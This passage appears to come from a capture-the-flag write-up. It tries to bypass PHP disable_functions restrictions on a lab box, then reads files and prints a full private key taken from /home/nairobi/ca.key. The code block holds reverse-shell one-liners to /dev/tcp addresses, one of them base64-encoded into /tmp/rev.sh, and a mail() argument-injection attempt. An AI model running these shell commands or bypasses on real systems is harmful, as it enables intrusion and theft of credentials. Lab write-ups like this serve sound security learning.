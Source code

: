 ```
disable_functions => exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source =>
[... SNIP ...]
```
We can try to bypass the disable_functions, using [this source](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass) but unfortunately, none of this methods works.
```
proc_close(proc_open("uname -a",array(),$something));
PHP Fatal error:  Call to undefined function proc_open() in Psy Shell code on line 1
preg_replace('/.*/e', 'system("whoami");', '');
PHP Warning:  preg_replace(): The /e modifier is no longer supported, use preg_replace_callback instead in phar://eval()'d code on line 1
pcntl_exec("/bin/bash", ["-c", "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"]);
PHP Fatal error:  Call to undefined function pcntl_exec() in Psy Shell code on line 1
file_put_contents('/tmp/rev.sh', base64_decode('YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0NDQgMD4mMSc='));
=> 50
file_get_contents('/tmp/rev.sh')
=> "bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'"
chmod('/tmp/rev.sh', 0777 );
=> true
mail('', '', '', '', '-H exec "/tmp/rev.sh"');
sendmail: NOOP failed
=> false
```
so we need to enumerate the system and grab all the possible information using this shell.  
To achieve this we can use three main php functions:  
* scandir('/path') : List directory
* file_get_contents('/path') : display content of a file
* file_put_contents('/path') : write a file
Poking around on the box we can found an intresting file under /home/nairobi/ca.key.  
Let's store this file on our local box by coping the output of
```
file_get_contents("/home/nairobi/ca.key")
=> """
   -----BEGIN PRIVATE KEY-----\n
   MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb\n
   7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/\n
   2m+jLx7wNH2SwFBjJeo5lnz+ux3HB+NhWC/5rdRsk07h71J3dvwYv7hcjPNKLcRl\n
   uXt2Ww6GXj4oHhwziE2ETkHgrxQp7jB8pL96SDIJFNEQ1Wqp3eLNnPPbfbLLMW8M\n
   YQ4UlXOaGUdXKmqx9L2spRURI8dzNoRCV3eS6lWu3+YGrC4p732yW5DM5Go7XEyp\n
   s2BvnlkPrq9AFKQ3Y/AF6JE8FE1d+daVrcaRpu6Sm73FH2j6Xu63Xc9d1D989+Us\n
   PCe7nAxnAgMBAAECggEAagfyQ5jR58YMX97GjSaNeKRkh4NYpIM25renIed3C/3V\n
   Dj75Hw6vc7JJiQlXLm9nOeynR33c0FVXrABg2R5niMy7djuXmuWxLxgM8UIAeU89\n
   1+50LwC7N3efdPmWw/rr5VZwy9U7MKnt3TSNtzPZW7JlwKmLLoe3Xy2EnGvAOaFZ\n
   /CAhn5+pxKVw5c2e1Syj9K23/BW6l3rQHBixq9Ir4/QCoDGEbZL17InuVyUQcrb+\n
   q0rLBKoXObe5esfBjQGHOdHnKPlLYyZCREQ8hclLMWlzgDLvA/8pxHMxkOW8k3Mr\n
   uaug9prjnu6nJ3v1ul42NqLgARMMmHejUPry/d4oYQKBgQDzB/gDfr1R5a2phBVd\n
   I0wlpDHVpi+K1JMZkayRVHh+sCg2NAIQgapvdrdxfNOmhP9+k3ue3BhfUweIL9Og\n
   7MrBhZIRJJMT4yx/2lIeiA1+oEwNdYlJKtlGOFE+T1npgCCGD4hpB+nXTu9Xw2bE\n
   G3uK1h6Vm12IyrRMgl/OAAZwEQKBgQDahTByV3DpOwBWC3Vfk6wqZKxLrMBxtDmn\n
   sqBjrd8pbpXRqj6zqIydjwSJaTLeY6Fq9XysI8U9C6U6sAkd+0PG6uhxdW4++mDH\n
   CTbdwePMFbQb7aKiDFGTZ+xuL0qvHuFx3o0pH8jT91C75E30FRjGquxv+75hMi6Y\n
   sm7+mvMs9wKBgQCLJ3Pt5GLYgs818cgdxTkzkFlsgLRWJLN5f3y01g4MVCciKhNI\n
   ikYhfnM5CwVRInP8cMvmwRU/d5Ynd2MQkKTju+xP3oZMa9Yt+r7sdnBrobMKPdN2\n
   zo8L8vEp4VuVJGT6/efYY8yUGMFYmiy8exP5AfMPLJ+Y1J/58uiSVldZUQKBgBM/\n
   ukXIOBUDcoMh3UP/ESJm3dqIrCcX9iA0lvZQ4aCXsjDW61EOHtzeNUsZbjay1gxC\n
   9amAOSaoePSTfyoZ8R17oeAktQJtMcs2n5OnObbHjqcLJtFZfnIarHQETHLiqH9M\n
   WGjv+NPbLExwzwEaPqV5dvxiU6HiNsKSrT5WTed/AoGBAJ11zeAXtmZeuQ95eFbM\n
   7b75PUQYxXRrVNluzvwdHmZEnQsKucXJ6uZG9skiqDlslhYmdaOOmQajW3yS4TsR\n
   aRklful5+Z60JV/5t2Wt9gyHYZ6SYMzApUanVXaWCCNVoeq+yvzId0st2DRl83Vc\n
   53udBEzjt3WPqYGkkDknVhjD\n
   -----END PRIVATE KEY-----\n
```